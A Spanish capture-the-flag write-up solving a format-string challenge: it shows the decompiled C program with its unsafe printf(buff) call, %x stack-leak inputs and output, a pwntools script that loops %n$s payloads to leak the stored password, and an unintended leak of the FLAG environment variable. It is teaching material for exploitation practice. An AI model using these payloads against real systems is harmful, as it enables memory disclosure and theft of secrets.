 ```yaml
---
author: naibu3
---
```


# EJERCICIO 2

## ENUNCIADO
¿Sabes cual es el formato correcto que debe tener una contraseña?

Ficheros adjuntos: vuln

## SOLUCION

Si descoompilamos el programa:

```c
void loadformato(char* buf, size_t len) {
	
	FILE *f = fopen("formato.txt","r");
	if (f == NULL) {
		printf("%s", "Parece que'formato.txt' no existe en tu ordenador (puedes crearlo para probar el programa).\n");
		fflush(stdin);
		fflush(stdout);
		exit(0);
	}

	fgets(buf,len,f); // size bound read
	fclose(f);
}

void vuln(){
	char formato[BUFSIZE];
	char buff[128];

	loadformato(formato, FLAGSIZE);

	printf("Dejame comprobar el formato de la contraseña >> ");
	scanf("%127s", buff);
	printf("Contraseña introducida: ");
	printf(buff);
	if (!strcmp(buff, formato)){
		printf("\nTu contraseña es muy segura! :)\n");
		printf("%s", getenv("FLAG"));
	}
	else{
		printf("\nDeberias cambiar la contraseña! >:(\n");
	}
	printf("\n");
}

int main(int argc, char **argv){

	setvbuf(stdout, NULL, _IONBF, 0);
	
	// Set the gid to the effective gid
	// this prevents /bin/sh from dropping the privileges
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	vuln();
	return 0;
}

```

Veremos que hay dos funciones; `loadformato()` que carga una linea de un fichero en memoria en un array (*stack*), y otra `vuln()` que llama a la primera y nos pide que introduzcamos una contraseña, en caso de que sea igual que la linea cargada por la función anterior nos devolverá la flag (que se lee de una variable de entorno *FLAG*).

Vemos que no podemos realizar un ataque de tipo *buffer overflow* ya que el número de carácteres leídos por `scanf()` está limitado por `%127s`. Sin embargo vemos que se llama a `printf()` de la siguiente forma:

```c
printf(buff);
```

Esta línea es sensible a un *string format attack*, es decir que podríamos introducir cadenas como `%x`, que la función interprete como caracteres especiales e imprima por ejemplo los elementos del stack.

Podríamos intentar por ejemplo mandar al programa una cadena como `%x %x %x ...`, sin embargo solo veremos el primer valor (ya que *printf* solo toma hasta el primer espacio), así que la mandamos de la siguiente forma: `%x.%x.%x.%x.%x. %x.%x.%x.%x...`, obtendremos una salida como la siguiente:

```txt
Dejame comprobar el formato de la contraseña >> %x.%x.%x.%x.%x. %x.%x.%x.%x
Contraseña introducida: ffb867b0.0.80492d6.252e7825.78252e78.
Deberias cambiar la contraseña! >:(
```

Vemos que podemos ver las primeras posiciones del stack, aparentemente, si listamos suficientes posiciones podríamos ver la variable que la función *loadformato* carga en memoria:

```txt
Dejame comprobar el formato de la contraseña >> %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
Contraseña introducida: ff85bef0.0.80492d6.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.252e78.73736170.64726f77.a.f7ce0d7e.f7c12844.804bff4.804befc.
Deberias cambiar la contraseña! >:(
```

Aunque en las últimas posiciones podemos ver el valor que queremos, por muchas `%x` que añadamos no lograremos verlo completo, ya que la propia memoria se llena de `%x`. Para ello podemos utilizar otra cadena, como `%n$s`, donde *n* es la posicion de memoria a leer, y la *s* indica que se represente como una *string*.

Para poder recorrer las posiciones y ver los valores más cómodamente lo haremos mediante un script en **python** y la librería **pwntools**:

```python
#! /bin/python3
import pwn

elf=pwn.ELF("./vuln")

for i in range(1, 256):
    payload = b"".join([b"%" + str(i).encode("utf-8") + b"$s"])

    p=elf.process()

    p.recvuntil(b">>")
    p.sendline(payload)
    resp=p.recvall().decode("latin-1")
    print(resp)
```
```txt
[...]
ContraseÃ±a introducida: 
Deberias cambiar la contraseÃ±a! >:(


 ContraseÃ±a introducida: password

Deberias cambiar la contraseÃ±a! >:(


 ContraseÃ±a introducida: ¼[û÷
Deberias cambiar la contraseÃ±a! >:(
[...]
```

Podríamos filtrar las líneas por ejemplo llamando al programa con `python3 fuzzer.py SILENT=1 | grep "ContraseÃ±a introducida:"`. Pero con simplemente recorrer las líneas vemos el valor que buscamos. En este punto, con volver a ejecutar pasando dicho valor, encontraremos la flag.

Ya solo queda modificar el script para que interactue mediante **netcat** y obtener la flag real.

### UNINTENDED

Hay una solución alternativa, ya que si imprimimos más valores, podremos ver variables de entorno del sistema. Si recordamos, la flag se almacena en una variable de entorno, de forma que podremos verla directamente:

```txt
ContraseÃ±a introducida: FLAG=hfctf{FAKE_FLAG}
```